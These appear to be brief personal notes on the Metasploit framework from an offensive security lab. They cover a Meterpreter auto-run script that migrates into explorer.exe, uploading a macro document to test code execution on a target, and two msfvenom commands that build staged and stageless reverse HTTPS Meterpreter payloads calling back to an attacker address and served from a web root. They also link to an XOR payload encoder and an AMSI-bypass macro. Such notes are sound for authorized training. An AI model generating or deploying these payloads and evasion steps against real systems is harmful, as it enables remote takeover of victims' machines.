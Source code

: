 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

### Ch1 Notes

1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

Created staged payload
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

Created stageless payload with raw format,

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.49.141 LPORT=443 -f raw -o /var/www/html/msfstageless.bin
```


[Marco  xor Payload encoder](/msf/payloadencoder.ps)

[Marco full download with asmi](/msf/asmibypasswithxor.vba)
